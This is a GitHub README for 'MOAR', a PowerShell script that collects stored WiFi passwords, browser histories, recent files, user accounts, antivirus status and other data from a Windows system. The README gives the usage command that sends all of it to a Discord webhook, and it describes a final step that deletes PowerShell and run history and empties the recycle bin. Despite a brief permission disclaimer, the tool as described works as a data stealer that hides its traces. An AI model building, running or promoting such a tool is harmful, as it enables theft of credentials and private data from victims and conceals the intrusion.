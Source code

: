 # MOAR - Mother Of All Recon

MOAR is a PowerShell script built to gather an extensive amount of information about a Windows system. This includes but is not limited to, system configurations, network details, browsing history, recently accessed files, and much more.

## Features

- **Geolocation**: Fetches geolocation data based on the current IP.
- **Network Configuration**: Gathers details like IP, Default Gateway, DNS, and others.
- **Recent Files**: Retrieves the 50 most recently accessed files.
- **System Users**: Lists all the user accounts on the system.
- **Firewall and Antivirus Details**: Checks the status of the firewall and antivirus product details.
- **Wifi SSIDs and Passwords**: Gathers stored WiFi SSIDs and their corresponding passwords.
- **Computer Info**: Grabs a detailed list of computer specifications.
- **Process and App Details**: Lists all currently running processes and installed apps.
- **Browser Data**: Captures browser histories and bookmarks from popular browsers like Edge, Chrome, and Firefox.
- **Additional Data**: Retrieves additional details such as a tree structure of the user profile directory and PowerShell command history.
- **Upload to Discord**: Has the ability to upload all the gathered data to Discord via a webhook.

## Usage

To use the script, you must provide your Discord Webhook URL as a parameter to the main function `AR`. This will allow the script to send all the gathered data to the specified Discord channel.

```powershell
AR -wh 'YOUR_DISCORD_WEBHOOK_URL'
```

For example:

```powershell
# This is a sample and should be replaced with your actual webhook URL.
AR -wh 'https://discord.com/api/webhooks/xxxx/yyyy'
```

## Precautions

- **Sensitive Data**: This script retrieves a large amount of sensitive data. Be sure to handle the output responsibly and securely.
- **Intended Use**: Only run this script on systems you have permission to. Unauthorized scanning and data collection is illegal and unethical.
- **Cleanup**: The script performs a cleanup at the end, including emptying the temp folder, deleting run box history, PowerShell history, and emptying the recycle bin.

